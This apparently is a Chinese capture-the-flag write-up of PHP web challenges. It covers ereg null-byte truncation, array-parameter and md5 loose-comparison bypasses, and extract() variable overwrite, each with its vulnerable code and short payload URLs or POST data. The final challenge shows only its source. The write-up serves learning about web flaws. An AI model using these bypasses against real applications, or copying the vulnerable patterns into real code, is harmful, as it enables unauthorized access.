 ### /x00
```php
if (isset ($_GET['nctf'])) {
        if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
            echo '必须输入数字才行';
        else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
            die('Flag: '.$flag);
        else
            echo '骚年，继续努力吧啊~';
    }
```
审计后得知，利用ereg()的%00截断或者ereg()和strpos()传入数组返回Null的特性都可得到flag
```
url?nctf=1%00%23biubiubiu
url?nctf[]=1
```
<Br />

### bypass again
```php
if (isset($_GET['a']) and isset($_GET['b'])) {
if ($_GET['a'] != $_GET['b'])
if (md5($_GET['a']) === md5($_GET['b']))
die('Flag: '.$flag);
else
print 'Wrong.';
}
```
用弱类型或者md5()的特性都可解
```
url?a[]=1&b[]=2
url?a=QNKCDZO&b=s878926199a
```
<Br />

### 变量覆盖
主要代码
```php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
      extract($_POST);
      if ($pass == $thepassword_123)
        echo $theflag;
}
```
审计后得知extract()漏洞
```
[POST DATA]
thepassword_123=123&pass=123
```
<Br />

### PHP是世界上最好的语言
根据页面提示查看index.txt文件中源码
```php
if(eregi("hackerDJ",$_GET[id])) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
```